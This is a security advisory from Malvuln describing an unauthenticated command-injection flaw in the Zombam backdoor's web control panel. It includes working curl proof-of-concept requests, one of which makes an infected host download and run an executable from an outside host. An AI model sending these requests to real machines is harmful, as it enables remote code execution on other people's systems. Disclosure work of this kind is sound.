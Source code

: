     Discovery / credits: Malvuln - malvuln.com (c) 2021
    Original source: https://malvuln.com/advisory/ff6516c881dee555b0cd253408b64404_B.txt
    Contact: malvuln13@gmail.com
    Media: twitter.com/malvuln

    Threat: Backdoor.Win32.Zombam.gen
    Vulnerability: Unauthenticated URL Command Injection
    Description: Zombam malware listens on TCP port 80 and deploys a HTML Web UI for basic remote administration capability. The RAT has option to kill processes by clicking a link E.g. href="/kill&smss.exe&" this would terminate the smss.exe process. By changing "kill" to exec "exec&<command-to-run>" you can start arbitrary processes. Crafting a successful injection requires padding an extra character to the end of the executable extension you want to call, otherwise it gets truncated and will fail. Example, curl http://x.x.x.x/exec&calc.exe results in the following message: "error! calc.ex cannot be executed". However, padding the extra character so ".exe" becomes ".exee", curl http://x.x.x.x/exec&calc.exee will successfully process and we will get the response "calc.exe executed".
    Type: PE32
    MD5: ff6516c881dee555b0cd253408b64404
    Vuln ID: MVID-2021-0244
    Disclosure: 06/10/2021

    Exploit/PoC:
    Opens the default web-browser on the infected host to download the file "DOOM.exe" from the server.

    CURL http://x.x.x.x/exec&http://hyp3rlinx.altervista.org/DOOM.exee

    HTTP Response:
    http://hyp3rlinx.altervista.org/DOOM.exe executed


    Disclaimer: The information contained within this advisory is supplied "as-is" with no warranties or guarantees of fitness of use or otherwise. Permission is hereby granted for the redistribution of this advisory, provided that it is not altered except by reformatting it, and that due credit is given. Permission is explicitly given for insertion in vulnerability databases and similar, provided that due credit is given to the author. The author is not responsible for any misuse of the information contained herein and accepts no responsibility for any damage caused by the use or misuse of this information. The author prohibits any malicious use of security related information or exploits by the author or elsewhere. Do not attempt to download Malware samples. The author of this website takes no responsibility for any kind of damages occurring from improper Malware handling or the downloading of ANY Malware mentioned on this website or elsewhere. All content Copyright (c) Malvuln.com (TM).